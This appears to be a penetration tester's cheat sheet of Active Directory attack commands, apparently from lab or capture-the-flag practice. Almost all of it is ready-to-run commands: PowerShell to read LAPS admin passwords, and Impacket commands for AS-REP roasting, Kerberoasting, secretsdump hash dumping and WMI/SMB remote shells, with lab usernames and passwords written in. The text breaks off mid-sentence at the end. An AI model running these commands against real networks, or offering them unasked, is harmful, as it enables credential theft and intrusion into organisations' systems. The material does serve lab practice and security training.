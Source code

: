 #### ForceChangePassword


#### Read LAPS

```bash
# Valid credentials for your user that you have a shell with
$SecPassword = ConvertTo-SecureString 'get_dem_girls2@yahoo.com' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\nikk37', $SecPassword)
Get-DomainObject DC -Credential $Cred -Properties "ms-mcs-AdmPwd",name
#Get-ADComputer DC -Properties ms-msc-admpwd
```

#### Impacket Attacks

Get users:

```bash
impacket-GetADUsers -dc-ip $ip "exampleH.example/" -all
impacket-GetADUsers -dc-ip 192.168.214.122 exampleH.example/fmcsorley:CrabSharkJellyfish192 -all
```

AS-REP Roasting:

```bash
# Searches for all vulnerable users
GetNPUsers.py "EGOTISTICAL-BANK.LOCAL/fsmith"
GetNPUsers.py help.htb/ -dc-ip $ip -request
GetNPUsers.py -request -format hashcat -outputfile asrep.txt -dc-ip $ip 'DOMAIN/'
```

Kerberoasting:

```bash
impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip $ip '$dom/'
impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip $ip $dom/user:password
```

Dump hashes for users, needs admin or sam/security/system files:

```bash
impacket-secretsdump admin:password@$ip -outputfile hashes
/opt/impacket/examples/secretsdump.py -sam sam -security security -system system LOCAL
```

WMI shell:

```bash
impacket-wmiexec forest/bob:'password'@$ip
```

SMB shell:

```bash
smbexec.py test.local/john:password123@$ip
```

#### ntpdate

Whenever you're pentesting a windows network or computer, just fucking take the time to run:
